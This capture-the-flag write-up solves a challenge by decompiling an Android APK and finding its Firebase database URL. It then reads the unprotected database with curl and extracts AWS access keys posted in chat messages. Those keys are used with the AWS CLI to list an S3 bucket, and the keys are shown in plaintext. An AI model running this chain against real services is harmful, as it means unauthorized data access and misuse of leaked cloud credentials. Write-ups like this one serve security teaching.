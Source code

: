 # parley

## Challenge

```
We found a discarded phone with a custom app on it. See what you can dig out of this.

Target: The name of the database backup file in the cloud storage.
```

## Walkthrough

The first step was to extract the APK. I used a popular tool called `apktool` to extract it.

```sh
$ apktool d HijackSparrow.apk
```

Once extracted I inspected the generated `apktool.yml` file to analyze meta information about the application.

```
$ cat apktool.yml
...
unknownFiles:
  firebase-analytics-ktx.properties: '8'
  firebase-analytics.properties: '8'
  firebase-annotations.properties: '8'
  firebase-appcheck-interop.properties: '8'
  firebase-auth-interop.properties: '8'
  firebase-auth-ktx.properties: '8'
  firebase-auth.properties: '8'
...
```

Upon inspection I found many references to firebase, prompting me to inspect further and try find the databases address.

```sh
$ grep -R "firebase" ./
...
res/values/strings.xml:    <string name="firebase_database_URL">https://galleychat-default-rtdb.firebaseio.com/</string>
...
```

Now that I'd determined the databases address it was time to inspect it.

An easy way to check if a firebases permissions are misconfigured to allow read access is to `GET /.json`, if you get anything back than there's permissions issues and you can inspect further with other tooling.

```sh
$ curl https://galleychat-default-rtdb.firebaseio.com/.json | jq
...
{
  "chats": {
    ...
    "IWG0X15CB6VHu8B5T39bPU52kOu2PqPJo8r5XMcd6BCiqg3laH5JTL62": {
        "messages": {
        ...
        "-MqgkS_COYVcgOcEgKE7": {
          "message": "Need your help though, boss needs me to wipe data, what's the access info for the s3 bucket? I swear my brains have been chewed out by the garra rufa, need to act quick.",
          "senderId": "IWG0X15CB6VHu8B5T39bPU52kOu2"
        },
        "-MqglqoQIhth_4Z91Dia": {
          "message": "alright Dory, I got your back. ID: AKIASXOIOIIYVBOHNQ75",
          "senderId": "PqPJo8r5XMcd6BCiqg3laH5JTL62"
        },
        "-MqgmDV96k7e0cJU5iFv": {
          "message": "secret: ld8oygSYdQjAbTEtAHv7RG7B7o2dZrXjJsqjrdYO",
          "senderId": "PqPJo8r5XMcd6BCiqg3laH5JTL62"
        },
        ...
      }
    },
    "IWG0X15CB6VHu8B5T39bPU52kOu2pienkZrKUIOskcIAJpBQARcxV3l1": {
      "messages": {
        ...
        "-MqSYk_Gy_3JWtf06ilr": {
          "message": "Leave nothing behind. Delete all traces watch the logs in s3 chat-westoleashiplul",
          "senderId": "pienkZrKUIOskcIAJpBQARcxV3l1"
        },
        ...
      }
    },
    ...
  },
  "user": {
    ...
  }
}
```

Read permissions were incorrectly configured such that I could read the chats and user info. I summed up the important info to figure out the next step.

```
ID        AKIASXOIOIIYVBOHNQ75
Secret    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
S3 bucket chat-westoleashiplul
```

From here it was obvious that the next step was to read the S3 bucket and we had everything we needed. Using the AWS CLI I listed the files in the S3 bucket.

```sh
$ aws configure
AWS Access Key ID: AKIASXOIOIIYVBOHNQ75
AWS Secret Access Key: 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
Default region name [None]: 
Default output format [None]:

$ aws s3 ls s3://chat-westoleashiplul
2021-12-11 23:25:47       4151 backup-Ducky2-Corned-Latter.enc.gz
```

That looks like what we want!

# Solve

filename: `backup-Ducky2-Corned-Latter.enc.gz`
